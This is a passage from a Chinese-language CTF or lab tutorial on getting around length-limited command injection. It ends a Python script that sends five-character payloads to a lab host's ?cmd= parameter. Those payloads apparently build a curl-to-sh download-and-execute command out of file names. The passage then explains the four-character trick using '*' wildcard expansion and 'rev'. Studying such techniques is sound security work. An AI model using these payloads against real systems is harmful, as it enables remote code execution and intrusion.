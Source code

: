 ```
    '>4x\\',
    '>0.\\',
    '>2x\\',
    '>7.\\',
    '>5\\',
    '>3.\\',
    '>1x\\',
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 

    # exec
    'sh _', 
    'sh g', 
]



r = requests.get('http://192.168.2.222:8085/?reset=1')
for i in payload:
    assert len(i) <= 5 
    r = requests.get('http://192.168.2.222:8085/?cmd=' + quote(i) )
    print i
    sleep(0.2)
```

#### 4个字符

* **命令组装（*号解析文件名为命令）**

依次输入如下命令，先分别创建`echo`和`hello`两个文件，然后执行`*`，此时就能看到输出`hello`。

但是加入创建`ehco`和`aaa`两文件，就不会输出`aaa`,引文ls默认排序`aaa`在前。

我们可以通过`echo *`将星号代表的内容输出。

![davcSU.png](https://s1.ax1x.com/2020/08/22/davcSU.png)

可以看到 `*` 是按文件名顺序来解析的。

那么当我们需要执行`ls -t`的时候用 `*` 也会报错，因为参数横杠 `-` 的顺序总会排在字母的开头

```
root@0d5607c1091a:/test# >ls
root@0d5607c1091a:/test# >-t
root@0d5607c1091a:/test# ls
-t  ls
```

可以看到顺序，执行 `*` 的时候就会执行 `-t  ls` 命令错误。



* **反转命令 (rev 命令)**

正如前面所说，并不是每次 `ls` 默认的顺序都能满足我们的需要，所以这里就有了一种将其反转的方法。
